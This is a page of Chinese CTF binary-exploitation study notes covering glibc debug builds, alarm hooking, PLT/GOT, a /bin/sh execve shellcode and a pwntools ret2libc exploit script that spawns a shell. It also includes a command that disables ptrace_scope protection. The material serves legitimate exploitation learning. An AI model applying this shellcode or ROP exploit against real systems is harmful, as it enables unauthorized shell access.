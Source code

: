##  一些资源
```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcode/
```
## 编译带debug symbol的glibc
### download
[glibc](http://gnu.mirrors.pair.com/libc/)
### make
解压后，要创建额外的build目录，我直接再glibc目录下创建了build目录`mkdir build && cd build`，使用下面的命令进行编译,
`CFLAGS` makefile编译选项
`-g`:包含调试信息是OS native format
`-ggdb`: 供gdb使用的调试信息
`-g3`: 产生额外的debug信息
`-gdwarf-4`: 产生dwarf格式的debug info，产生 `.debug_info`段
`-Og` 启用不影响调试的编译优化
`--prefix` 安装路径
`--disable-sanity-checks` 关闭适应性检查。可能与GNU/Linux行为不一致


```sh
CFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" CXXFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" ../configure --prefix=/root/app/glibc22364 --disable-werror 
``` 
### 排错
`loc1@GLIBC_2.17' can't be versioned to common symbol 'loc1'` 这是一个bug，在[这里](https://stackoverflow.com/questions/51279418/how-to-build-older-version-of-glibc)可以找到解决方法。

## 干掉alarm
很多题目都有alarm函数防止Dos攻击，超过指定的时候后程序就会退出，不便于debug，通常有几种干掉alarm的方法：
- vim: `%s/alarm/isnan/g`
- `sed-i s/alarm/isnan/g [elf name]`
- LD_PRELOAD
```c
#include<stdio.h>
unsigned int alarm(unsigned int seconds){
    printf("%d",seconds);
}
```
编译：`gcc -shared [-fPIE/-fPIC] [-m32] hook.c -o hook.so`  
运行：`LD_PRELOAD=./hook.so ./pwnme`

## plt got .plt.got
![plt->got](basic/2018-11-15-23-44-54.png)
![plt &got](basic/2018-11-15-23-25-29.png)
plt 指向got,采用延时绑定。printf函数中，0x404c010实际内容是下一条指令`push 0`,
而plt.got是已经绑定的， puts函数的0x804bff4是指向实际puts函数的

## shellcode

```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```

linux 下
- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件 
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode的。
- 使用`xxd -i [target]`将上述shellcode转为char数组
相关工具
- https://github.com/Neetx/Shellcode-Extractor
从elf提取shellcode
## ROP
 1. ROPgadget 得到代码片断
 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
 3. 动态链接找不到 int 0x80,需要构造rop
```py
from pwn import *
r=process('ret2lib')

puts_got_plt = 0x804a01c
puts_offset =0x00069930

r.recvuntil(':')
r.sendline(str(puts_got_plt))
r.recvuntil(': ')
libc_base=int(r.recvline(keepends=False),16)-puts_offset # get libc base address
print hex(libc_base)
gets_off=0x000690d0             # objdump -D libc |grep gets@
system_off= 0x0003e8f0          # objdump -D libc |grep system@
gets = libc_base+gets_off
system = libc_base+system_off
buf=0x804b000 -30               # cat /proc/702/maps to get writable address 
rop=[
        gets,
        system,
        buf,
        buf
        ]
r.recvuntil(":")
r.sendline('a'*60+flat(rop))
r.sendline("/bin/sh\x00")
r.interactive()

```

### 寄存器赋值
构造栈结构
```
  *(pop eax ;ret)
  3
```
将eax赋值为3
### 栈转移
寻找 leave;ret;指令，然后更改ebp的值即可
leave= mov esp,ebp,pop ebp;
## 漏洞挖掘方法
* 现成CMS注意DIFF
* 根据漏洞PATCH
* 根据漏洞写出EXP，发动攻击 
## 保护
NX:DEP 栈不可执行，可执行不可写 ROP绕过
ALSR: 把每次载入的函数地址随机化，利用puts/printf 等leak出libc的实际地址

## strace
strace可以输出系统调用，应对一些打开就退出的情况，可以使用`strace -e trace=read,write [elf name]`来追踪特定的系统调用

## gdb attach 失败
```sh
echo 0 |sudo tee /proc/sys/kernel/yama/ptrace_scope
```
## LD_PRELOAD、 LD_SHOW_AUXV
- LD_PRELOAD可以指定一个或多个共享库文件，linux加载器`ld-linux`会先于glibc加载LD_PRELOAD指定的库。  
用途：HOOK掉alarm。  
为了避免用于恶意攻击，在ruid !=euid的情况下加载器是不会使用LD_PRELOAD 进行预加载。
- `LD_SHOW_AUXV=1 ./pwnme` 用于调试